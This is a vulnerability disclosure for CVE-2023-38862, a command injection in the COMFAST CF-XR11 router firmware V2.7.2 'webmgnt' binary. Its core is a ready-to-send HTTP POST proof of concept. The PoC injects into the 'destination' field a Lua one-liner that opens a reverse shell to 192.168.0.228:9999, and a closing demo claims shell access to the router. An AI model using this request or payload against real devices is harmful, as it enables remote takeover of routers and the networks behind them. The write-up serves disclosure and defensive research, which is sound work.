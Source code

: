 # CVE-ID

CVE-2023-38862

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_431F64`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `destination` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ping_config`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_431F64`, the program uses function `blobmsg_parse` to obtain the content of parameter `destination`, which are sent by `POST` request. On line 32, the attacker can complete command execution by controlling the `destination` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ping_config` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=ping_config HTTP/1.1
Host: 192.168.0.1
Content-Length: 174
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/tools/tools_ping.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-3a1697bd
Connection: close

{"destination":"127.0.0.1\" && echo \"`lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

